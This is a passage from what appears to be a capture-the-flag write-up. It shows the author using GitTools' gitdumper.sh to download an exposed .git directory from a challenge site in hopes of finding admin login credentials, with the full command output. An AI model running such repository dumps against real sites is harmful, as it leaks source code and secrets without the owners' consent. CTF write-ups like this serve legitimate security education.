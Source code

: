 We now know there's an administrative login page and a Git repository. There's a good chance the repository has the credentials we need to log in.

If we try to navigate to the `/.git/` directory we're told we cannot access it:

```bash
Cannot GET /.git
```

But [Dumper from GitTools](https://github.com/internetwache/GitTools) has no trouble grabbing the entire thing:

```bash
$ ./gitdumper.sh https://cgau.sdc.tf/.git/ cgau
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating cgau/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[-] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/0b/23360a5d79ecf5241fd6790edd619304825b9a
[+] Downloaded: objects/42/6ec68a64f6fe89ec40a3352213703792e080cb
[+] Downloaded: objects/d8/eb39e3e2bb984ce687768d20f58d962942841d
[+] Downloaded: objects/21/c3532b100a5f8566f5fc4c64f2a4486618a67e
[+] Downloaded: objects/a7/6c475d6b53daf7efe8396b494f5e09ab4abc91
[+] Downloaded: objects/2c/55d1ca4ec7d827b7f4357436ca5ea4ee5327d1
[+] Downloaded: objects/aa/c42f1d66b35b027d9538cfb3252473b08f11cd
[+] Downloaded: objects/ce/86d86f4c3f5bd7a63136a2caaf76d57071d905
[+] Downloaded: objects/6a/ab31640a322209ccd9e0e6eeab36ef65be0df0
[+] Downloaded: objects/6a/70ab0a4ef8f968750fc627fe248d30d066c8c2
[+] Downloaded: objects/32/e65831b8ccdef0c8d181116c660e11233983f9
[+] Downloaded: objects/b1/532f74e423381703e466520e99f9619a4ca334
[+] Downloaded: objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d
[+] Downloaded: objects/9a/55d593b0f12ff6f64a06094aa873690b8ceabd
[+] Downloaded: objects/20/c9f02c6a89d4bdf1d6644b12e80e093bf63a3e
[+] Downloaded: objects/95/96c8286bedc6214c91e3efc2876efd41c6301e
[+] Downloaded: objects/84/f191442c8479c4cbd67937b9cbe3df2038be63
```
